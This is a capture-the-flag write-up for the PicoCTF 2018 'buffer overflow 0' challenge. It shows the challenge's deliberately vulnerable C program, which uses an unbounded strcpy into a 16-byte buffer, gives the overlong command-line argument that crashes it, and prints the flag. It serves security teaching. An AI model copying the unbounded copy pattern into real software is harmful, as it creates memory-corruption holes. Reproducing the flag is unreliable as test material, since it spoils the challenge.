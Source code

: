 ```yaml
---
layout: post
title: PicoCTF 2018 - buffer overflow 0
head: "omry"
categories: [PicoCTF, Binary Exploitation]
---
```



## Information

| Points |Category  | Level|
|--|--|--|
| 150 | Binary Exploitation |Easy |

## Challenge

> Let's start off simple, can you overflow the right buffer in this [program](https://2018shell.picoctf.com/static/b3e4e30f1c9d3fdd1ce245c849187c36/vuln) to get the flag? You can also find it in /problems/buffer-overflow-0_1_316c391426b9319fbdfb523ee15b37db on the shell server. [Source](https://2018shell.picoctf.com/static/b3e4e30f1c9d3fdd1ce245c849187c36/vuln.c).

### Hint

> -   How can you trigger the flag to print?
>-   If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Solution

Let's download the files, we have a execution file and a source file
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#define FLAGSIZE_MAX 64
char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  //open the flag.txt file
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  //Read from the file to flag
  fgets(flag,FLAGSIZE_MAX,f);
  //If there is a SIGSEGV run sigsegv_handler
  signal(SIGSEGV, sigsegv_handler);
  //gid settings
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  //Need 1 argument to run the program
  if (argc > 1) {
  #run vuln with this argument
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}
```
so basically we can see that if there is a SIGSEGV (segmentation falut) the program run  
sigsegv_handler function that print the flag we want.  

So how could we cause a SIGSEGV?  
I took another look on the code and found that a *vuln* function called with the argument  
I supplied in the running of the program, so this is what I have a control on.

So let's take another look on the function:   
```c
void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}
```   
The function take the argument and a buffer sized 16 bytes and call the strcpy function.  
**strcpy function -**  copy data from src to dest
```c
char  *strcpy(char  *dest,  const  char  *src)
```
Our dest size is 16 byte, and  src size is unlimited because we can choose whatever we want    
to be the src (argument to the run command).    
So if we choose an argument bigger than 16 bytes there will be a SIGSEGV.  
  
Let's check it in our computer, create a file named "flag.txt" in the folder of the vuln file,  
and write in it whatever you want, I chose "Wow here is the flag".    
Now run the execution file with a bigger argument like:

    ./vuln IamBiggerThan16BytesNow!!!!!!!!!!!!!!!!!  

and the text we wrote in the file now printed in the console.  
So do the same thing in the shell of picoCTF in order to read the actual flag file:  

```
 1. cd /problems/buffer-overflow-0_1_316c391426b9319fbdfb523ee15b37db  
 2. /.vuln IamBiggerThan16BytesNow!!!!!!!!!!!!!!!!!    
```  

## Flag
> `picoCTF{ov3rfl0ws_ar3nt_that_bad_3598a894}`


